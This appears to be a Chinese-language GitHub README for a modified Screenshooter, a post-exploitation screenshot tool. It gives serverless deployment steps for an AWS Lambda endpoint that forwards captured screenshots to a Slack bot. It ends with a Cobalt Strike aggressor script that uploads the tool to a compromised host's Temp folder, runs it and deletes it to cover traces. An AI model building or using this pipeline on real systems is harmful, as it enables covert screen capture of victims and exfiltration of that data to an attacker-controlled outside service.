


## 源代码 : [https://github.com/FortyNorthSecurity/Screenshooter](https://github.com/FortyNorthSecurity/Screenshooter)
## 功能
截图之后上传到slack可以直接查看：



## 新增上传图片函数（网上抄的）
上传截图到AWS的lambda，然后转发给slack的机器人，这样截图之后可以直接在slack里面看得到。
### ~~部署lambda(截屏文件2M左右lambda函数会出错，建议部署自己服务器或者cloudfront之类的)~~
### PS. 部署到lambda之后在配置里面修改默认执行时间为6分钟，大概可以(未测试）
首先修改`lambda/app.py`文件,替换自己的slack的token和channel，然后部署到AWS：
```
cd lambda
virtualenv venv -p python3
. venv/bin/activate
pip install Flask
pip freeze > requirements.txt
sls plugin install -n serverless-wsgi
sls plugin install -n serverless-python-requirements

本地测试: sls wsgi serve
远程部署: sls deploy
查看日志: sls logs -f app
```
部署之后，会有一个endpoints，上传接口是: `https://xxxx.execute-api.ap-northeast-1.amazonaws.com/dev/upload`


替换上传[接口](https://github.com/JKme/Screenshooter/blob/master/Screenshooter/Program.cs#L203)之后编译即可使用。

PS: 直接修改源代码上传到slack也是可以的

### CNA
```
 item "screenshots" {
            $bid = $1;
            $dialog = dialog("Upload Screenshots", %(UploadPath => "C:\\Windows\\Temp\\", bid => $bid), &screenshots);
            drow_text($dialog, "UploadPath",  "path: ");
            dbutton_action($dialog, "ok");
            dialog_show($dialog);
        }

        sub screenshots {
            # switch to specify path
            bcd($bid, $3['UploadPath']);
            bsleep($bid, 0 ,0);
            $bin = $3['UploadPath'];
            bupload($bid, script_resource("/script/Screenshooter.exe"));
            bshell($bid, "$bin $+ Screenshooter.exe")
            bshell($bid, "del $bin $+ Screenshooter.exe")
            # show_message("Executing cmmand!");
        }
```
